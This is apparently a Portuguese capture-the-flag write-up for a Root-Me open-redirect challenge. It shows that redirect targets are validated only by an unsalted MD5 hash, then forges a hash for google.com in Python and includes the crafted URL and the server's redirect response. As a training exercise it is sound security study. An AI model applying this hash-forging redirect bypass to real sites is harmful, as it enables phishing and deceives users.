 # HTTP - Open redirect 

Checando o código fonte, inspecionando elemento ou copiando o link, encontramos:

  - https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

  - https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

  - https://slack.com&h=e52dc719664ead63be3d5066c135b6da

A validação é feita por meio de hash MD5:

<pre>root@kali:~# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))</pre>

É possível capturar a requisição com [Burp Suit](https://portswigger.net/burp) ou com a extensão [HTTP Header Live](https://addons.mozilla.org/pt-BR/firefox/addon/http-header-live/) de firefox, edita-la e fazer o reenvio:

Podemos gerar o hash md5 de https://google.com, enviar e olhar a resposta da requisição com Burp Suit:

<pre>root@kali:~# python2.7
Python 2.7.17 (default, Oct 19 2019, 23:36:22)
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import md5
>>> md5.new('https://google.com').digest().encode('hex')
'99999ebcfdb78df077ad2727fd00969f'</pre>

## Resposta

http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Thu, 30 Jan 2020 20:03:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1027

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is (flag_here)</p><script>document.location = 'https://google.com';</script></pre>
